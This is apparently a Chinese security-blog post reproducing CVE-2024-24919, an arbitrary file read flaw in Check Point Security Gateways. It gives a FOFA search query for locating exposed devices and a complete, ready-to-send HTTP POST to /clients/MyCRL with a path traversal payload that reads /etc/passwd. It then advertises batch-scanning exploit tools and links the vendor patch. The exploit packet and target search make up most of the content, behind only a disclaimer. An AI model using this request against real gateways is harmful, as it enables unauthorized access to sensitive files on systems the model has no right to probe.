 #  Check Point Security Gateways 安全网关存在任意文件读取漏洞CVE-2024-24919 【老洞】   
2025-3-1更新  南风漏洞复现文库   2025-03-01 15:04  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Check Point Security Gateways 安全网关简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
Check Point Security Gateways 安全网关  
## 2.漏洞描述  
  
Check Point Security Gateways是以色列Check Point公司的一个人工智能驱动的 NGFW 安全网关。Check Point Security Gateways 存在安全漏洞。攻击者利用该漏洞可以获取敏感信息。  
  
CVE编号:CVE-2024-24919  
  
CNNVD编号:CNNVD-202405-4696  
  
CNVD编号:  
## 3.影响版本  
  
Check Point Security Gateways 安全网关  
  
![Check Point Security Gateways 安全网关MyCRL接口存在任意文件读取漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3byMFmCeRYN7HNluicH2wSwbD4KDzWeR6rI3HHPrr2Z6GsayA8L1HYbMwkFicu4VrsTqcDk06Pa5RibQ/640?wx_fmt=png&from=appmsg "null")  
  
Check Point Security Gateways 安全网关MyCRL接口存在任意文件读取漏洞  
## 4.fofa查询语句  
  
app="Check_Point-SSL-Network-Extender"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/clients/MyCRL  
  
漏洞数据包：  
```
POST /clients/MyCRL HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xx.xx.xx
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

aCSHELL/../../../../../../../etc/passwd
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byMFmCeRYN7HNluicH2wSwbuibrtoSssYnKGPPpIZvWnubDOEMzhiajicFAIfLLFVerp01cP6wV13XgA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byMFmCeRYN7HNluicH2wSwblWbKE8zf8LPibScaFs8SPtLKoqb8bBXzlFWCToPqFjROY5DGtjz2ruQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byMFmCeRYN7HNluicH2wSwbuArd915JW8lYMNKTiaIM33ibyAFUhcZGY4YRwXKeXjp3A6X4zJDzf1CQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byMFmCeRYN7HNluicH2wSwb0mL1UickXnsAU22asmNoOlJ2rx4c3VzvHtVsNsTAtUtBxkt8PchOpXQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byMFmCeRYN7HNluicH2wSwbB5tMjtlJ1jEDZxssDPgqnLr3GCN3yoZv4c6GZdfDiaHGGZnaQ1r0NJg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byMFmCeRYN7HNluicH2wSwbTEhefoVkZEfTrCk3yAaag9Sq5uJicUJcle2UPnq7icvn3NqohP7Dfoeg/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
官方补丁 https://support.checkpoint.com/results/sk/sk182336  
## 8.往期回顾  
  
  
